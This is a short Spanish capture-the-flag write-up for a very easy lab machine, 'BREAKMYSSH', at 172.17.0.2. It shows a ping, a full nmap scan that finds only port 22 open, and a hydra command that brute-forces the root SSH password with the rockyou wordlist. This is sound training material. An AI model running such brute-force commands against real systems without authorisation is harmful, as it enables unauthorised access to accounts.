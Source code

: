 ```yaml
---
description: 'Dificultad: Muy fácil'
---
```


# Máquina BREAKMYSSH

Fecha: 14 de Marzo de 2025

Objetivo: 172.17.0.2

***

## Fase de reconocimiento

Comenzamos haciendo un ping a la máquina para ver si nos contesta y está encendida.

```
ping 172.17.0.2
```

Ok, la máquina está encendida, podemos comenzar la fase de reconocimiento.

Proseguimos con un nmap para ver los puertos, sistema operativo, etc. Ejecutamos el comando nmap:

```
nmap -p- -O -v 172.17.0.2
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p>Salida del comando NMAP</p></figcaption></figure>

Vemos que solo nos ha arrojado que únicamente esta máquina tiene abierto el puerto 22.

Si hacemos directamente un ataque con hydra, podemos terminar, pero quería aprovechar para instalar Metasploit.

```
 hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4
```

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption><p>Salida del comando hydra</p></figcaption></figure>









